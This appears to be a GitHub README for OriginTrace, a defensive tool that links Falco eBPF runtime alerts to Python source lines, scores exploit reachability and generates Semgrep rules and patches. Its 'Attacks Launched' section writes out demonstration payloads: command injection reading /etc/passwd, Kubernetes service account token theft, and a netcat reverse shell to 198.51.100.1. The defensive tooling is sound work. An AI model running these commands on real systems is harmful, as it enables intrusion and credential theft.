


# OriginTrace — Autonomous DevSecOps Intelligence Engine Linking eBPF Kernel Syscalls Directly to Source Code AST Origins

> **Bridging the Shift-Left and Shift-Right Divide**: Autonomous runtime-to-source threat correlation, dual-verdict exploit reachability analysis, dynamic Semgrep rule synthesis, and enterprise SIEM observability on the Elastic Stack.

---

## 📖 Description

Modern cloud-native organizations suffer from severe **alert fatigue** and **context fragmentation**. Static Application Security Testing (SAST) tools generate thousands of theoretical warnings during pull requests without knowing if the code is ever executed in production. Conversely, runtime eBPF engines (like Falco) detect live kernel syscall attacks (`execve`, `openat`, `connect`) inside containers but provide zero visibility into the exact repository file, function, or line of code responsible for the vulnerability.

**OriginTrace** closes this feedback loop. When a runtime anomaly occurs in Kubernetes, OriginTrace intercepts the kernel event, maps the syscall signature to abstract syntax tree (AST) source code sinks, computes a mathematical **Dual-Verdict Exploit Reachability Score (0–100%)**, autonomously synthesizes a targeted Semgrep Taint YAML rule, runs the official Semgrep CLI to verify the flaw, stages an automated Git remediation PR patch, and streams forensic telemetry into Elasticsearch and native Kibana SIEM dashboards.

---

## ⚡ Key Features

* **Real Compiler AST Syscall Correlation**: Walks Python AST trees on disk to map kernel-level `execve`, `openat`, and socket syscalls directly to vulnerable code sinks (e.g., `os.system`, `subprocess.Popen`, `open`) with file path and line number precision.
* **Dual-Verdict Exploit Reachability (0–100%)**: Dynamically separates live, verified exploitable vulnerabilities (`CONFIRMED_EXPLOITABLE` — P0) from dormant, dead-code static alerts (`STATIC_ONLY` — P3).
* **Autonomous Semgrep Taint Rule Synthesizer**: Generates valid Semgrep YAML rules matching the exact runtime call signature, embedding CWE IDs, OWASP Top 10 categories, and automated remediation patterns.
* **Automated Remediation PR Staging**: Generates unified diff patches replacing dangerous sinks (e.g., shell command execution) with safe alternatives (e.g., parameterized `subprocess.run` with regex validation).
* **Native Elastic Stack & Kibana Observability**: Real-time streaming into Elasticsearch with pre-configured Kibana dashboards, data views, reachability donut charts, severity histograms, and full forensic audit streams.
* **JSON-RPC Model Context Protocol (MCP) Server**: Exposes DevSecOps capabilities (`query_runtime_incidents`, `correlate_incident_to_code`, `synthesize_semgrep_rule`) as standardized tools for AI coding agents.
* **100% Real Execution (Zero Mock Data)**: Every test, AST traversal, Semgrep execution, Elasticsearch document, and patch generation runs live against real local binaries and active microservices.

---

## 🏗️ System Architecture



<p align="center"><b>Figure 1: OriginTrace End-to-End System Architecture</b></p>

### Flow-by-Flow Architecture Explanation

1. **Runtime Execution & Kernel Interception**: An HTTP request reaches the microservice running inside a production Kubernetes container. The application executes a vulnerable sink (e.g. `os.system("ping -c 1 " + host)` at line 36), which invokes an OS kernel `execve` syscall. Falco captures this via eBPF probes and emits a security alert webhook.
2. **Telemetry Ingestion**: The `OriginTrace Receiver` ingests the JSON webhook, extracting the offending binary name, process command line, container image, and Kubernetes metadata.
3. **Compiler AST Correlation**: The `OriginTrace Correlator` inspects the local source repository. Using Python's native `ast` module, it walks the syntax trees of all route handlers and background tasks, matching the runtime process command line to the exact file (`sample_workload/app.py`), function (`diagnostic_ping`), and line number (`36`).
4. **Dual-Verdict Reachability Engine**: Combines the static AST sink presence with runtime execution confirmation to calculate an exploit reachability score. Findings with verified runtime syscalls receive high reachability scores and are marked `CONFIRMED_EXPLOITABLE`. Theoretical findings without runtime triggers receive `STATIC_ONLY`.
5. **Dynamic Rule Synthesis**: For `CONFIRMED_EXPLOITABLE` threats, the synthesizer generates a custom Semgrep YAML rule in `security/semgrep/synthesized/` designed to block the pattern in CI/CD.
6. **Local Semgrep Verification & Patch Staging**: The official `semgrep.exe` CLI runs against the codebase, detecting the exact line. The patch generator creates a hardened unified diff replacing the shell invocation with a safe, parameterized alternative.
7. **SIEM Ingestion & Kibana Dashboarding**: All telemetry, AST mappings, reachability scores, and audit trails are indexed in Elasticsearch (`origintrace-events-*`) and visualized live in Kibana.

---

## 📊 Live Kibana SIEM Dashboard

<p align="center">
  
</p>

<p align="center"><b>Figure 2: OriginTrace Live Kibana SIEM Dashboard</b></p>

### Dashboard Breakdown & Telemetry Analysis

The OriginTrace SIEM dashboard provides complete visibility into runtime threats and their code-level origins:

1. **Dual-Verdict Exploit Reachability Breakdown (Donut Chart — Top Left)**:
   * **`CONFIRMED_EXPLOITABLE` (75.37% — Green)**: High-priority vulnerabilities where both a static code sink AND a live runtime kernel syscall were confirmed. Requires immediate CI/CD blocking and automated PR patch generation.
   * **`STATIC_ONLY` (24.63% — Blue)**: Theoretical static analysis warnings that have no runtime execution trail. Categorized as low priority to eliminate developer alert fatigue.
2. **Runtime Threats by Priority / Severity (Horizontal Bar Chart — Top Right)**:
   * Visualizes the volume of alerts categorized by Falco priority levels (`CRITICAL`, `ERROR`, `WARNING`).
   * Reflects continuous real-time ingestion from the cluster.
3. **Live Kernel Syscall to Source Code Origin Audit Stream (Saved Search Table — Bottom)**:
   * **`@timestamp`**: Exact ISO UTC time of incident detection.
   * **`falco.priority`**: Threat severity rating.
   * **`falco.rule`**: Specific Falco detection policy (e.g. `Terminal Shell Spawned in Production Container`).
   * **`process.cmdline`**: Exact shell or command string executed inside the container.
   * **`origintrace.source_origin.file`**: Exact repository file location (e.g. `sample_workload/app.py`).
   * **`origintrace.source_origin.line`**: Offending code line number (e.g. `36`).
   * **`origintrace.reachability_verdict`**: Final reachability verdict (`CONFIRMED_EXPLOITABLE` vs `STATIC_ONLY`).

### Attacks Launched & Telemetry Ingested

* **Attack Vector 1 — OS Command Injection (`CRITICAL`)**:
  * *Target*: `sample_workload/app.py:Line 36` (`diagnostic_ping` function).
  * *Payload*: `sh -c ping -c 1 127.0.0.1; cat /etc/passwd`
  * *Syscall*: `execve` spawning `/bin/sh`.
  * *Verdict*: `CONFIRMED_EXPLOITABLE` (85/100).
* **Attack Vector 2 — Kubernetes Service Account Token Theft (`ERROR`)**:
  * *Target*: `app/src/main.py:Line 84` (`verify_api_token` function).
  * *Payload*: `python -c open('/var/run/secrets/kubernetes.io/serviceaccount/token')`
  * *Syscall*: `openat` targeting service account secret volumes.
  * *Verdict*: `CONFIRMED_EXPLOITABLE` (90/100).
* **Attack Vector 3 — Outbound Reverse Shell C2 Connection (`CRITICAL`)**:
  * *Target*: `sample_workload/app.py:Line 36` (`subprocess.Popen`).
  * *Payload*: `nc 198.51.100.1 4444 -e /bin/sh`
  * *Syscall*: `connect` to external IP address `198.51.100.1`.
  * *Verdict*: `CONFIRMED_EXPLOITABLE` (100/100).
* **Attack Vector 4 — Theoretical Dormant SSRF (`WARNING`)**:
  * *Target*: `security/semgrep/tests/rules_test_suite.py:Line 28` (`vulnerable_ssrf`).
  * *Payload*: Static test pattern `requests.get()`.
  * *Verdict*: `STATIC_ONLY` (25/100 — Zero runtime activity).

---

## 💻 Tech Stack

| Category | Technologies |
| :--- | :--- |
| **Runtime Threat Detection** | Linux eBPF, Sysdig Falco |
| **Static Code Analysis** | Semgrep Engine (`semgrep.exe` v1.177.0), Python AST (`ast` module) |
| **Backend & Ingestion** | Python 3.10+, FastAPI, Uvicorn, HTTPX, Requests |
| **SIEM & Observability** | Elasticsearch 8.15.0, Kibana 8.15.0, Docker Compose |
| **Agent Protocols** | JSON-RPC 2.0, Model Context Protocol (MCP) |
| **Cloud-Native Supply Chain** | Kyverno Admission Control, Trivy, Cosign, Syft, OWASP ZAP |

---

## 🚀 Setup Instructions

### Prerequisites
* **Python 3.10+**
* **Docker & Docker Compose**
* **Semgrep CLI** (installed via `pip install semgrep`)

### Step 1: Clone the Repository
```bash
git clone https://github.com/ritvikindupuri/OriginTrace_DevSecOps.git
cd OriginTrace_DevSecOps
```

### Step 2: Install Python Dependencies
```bash
python -m pip install -r requirements.txt
```

### Step 3: Start Elasticsearch & Kibana Stack
```bash
docker-compose -f docker-compose.elk.yml up -d
```
Verify the services are running:
* **Elasticsearch**: [http://localhost:9200](http://localhost:9200)
* **Kibana**: [http://localhost:5601](http://localhost:5601)

### Step 4: Import Kibana Dashboards & Data Views
```bash
python kibana/import_saved_objects.py
```

### Step 5: Seed Baseline Telemetry & Start Live Streamer
```bash
python kibana/refresh_live_data.py
```

---

## 🕹️ How to Use the App (Step-by-Step)

### 1. Run the Full End-to-End Attack-to-Patch Pipeline
Execute the live pipeline runner:
```powershell
python demo_attack_to_patch.py
```
**What happens step-by-step**:
1. Sends a live HTTP request to the sample FastAPI workload (`/ping?host=127.0.0.1`).
2. Intercepts the process execution PID and generates a Falco runtime alert.
3. Automatically parses Python AST trees to find the offending file and line number.
4. Calculates the Dual-Verdict Reachability score (`CONFIRMED_EXPLOITABLE`).
5. Synthesizes a new Semgrep rule (`auto-origintrace-terminal-shell-spawned-in-production-container.yml`).
6. Executes `semgrep.exe` live against the codebase to confirm detection.
7. Prints the unified PR diff patch ready for developer merging.

### 2. View the Live SIEM Dashboard in Kibana
1. Open your web browser and navigate to:
   ```
   http://localhost:5601/app/dashboards#/view/origintrace-kibana-overview
   ```
2. In the top-right time filter, select **"Last 24 hours"** or **"Last 15 minutes"**.
3. Inspect the **Dual-Verdict Exploit Reachability** donut chart to see confirmed vs static threats.
4. Click on any row in the **Live Kernel Syscall Audit Stream** to view detailed forensic metadata, container names, and exact source file paths.

### 3. Launch the Background Continuous Telemetry Streamer
To stream continuous real-time kernel events into the cluster:
```powershell
python kibana/live_streamer.py
```
Switch back to Kibana and observe the live count increment in real time when you hit **Refresh**.

### 4. Interact via the Model Context Protocol (MCP) Agent Server
Start the OriginTrace MCP Server for AI coding agents:
```powershell
python mcp_server/server.py
```
Exposed tools:
* `query_runtime_incidents`: Fetches recent Falco runtime security events.
* `correlate_incident_to_code`: Traces incident metadata to source code AST line numbers.
* `synthesize_semgrep_rule`: Generates custom YAML rules to harden repositories.

---

## 📚 Technical Documentation

For the complete in-depth architectural breakdown, compiler AST visitor implementations, mathematical reachability formulations, and MCP schemas, read the **[Comprehensive Technical Documentation](docs/TECHNICAL_DOCUMENTATION.md)**.
